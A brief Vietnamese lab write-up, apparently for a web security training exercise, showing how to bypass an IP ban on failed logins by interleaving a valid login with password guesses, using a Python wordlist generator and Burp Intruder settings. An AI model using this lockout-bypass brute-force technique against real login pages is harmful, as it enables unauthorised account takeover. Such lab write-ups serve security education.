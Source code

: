 Yêu cầu: Brute Force. Tuy nhiên khi quá 3 lần sai pass, ip sẽ bị ban. Để bypass thì sẽ nhập account đúng trước khi bị ban. 
![image](https://user-images.githubusercontent.com/62832067/156862195-5b2e9f03-a5b7-432c-b379-98dc0ff0b93f.png)
<br> Ta tạo 2 wordlist tương ứng: Cứ dòng lẻ thì là account "wiener" đúng còn dòng chẵn là account brute 
```
password = 'pass.txt' 
add = open("pass2.txt","w")
with open(password) as pwd:
    line = pwd.readline()
    while line:
        add.write("peter\n")
        add.write(line.strip())
        add.write("\n")
        line=pwd.readline()
add.close()
```
![image](https://user-images.githubusercontent.com/62832067/156863679-df8fcf98-2959-482a-a62a-ca27ecb3b61b.png)

Chỉnh resource pool tách từng request riêng
![image](https://user-images.githubusercontent.com/62832067/156877798-a8de940a-ef77-4ea2-b0a7-81057a03bb2f.png)
![image](https://user-images.githubusercontent.com/62832067/156877674-c6cd444b-4a81-4276-971c-7654a2e0895b.png)
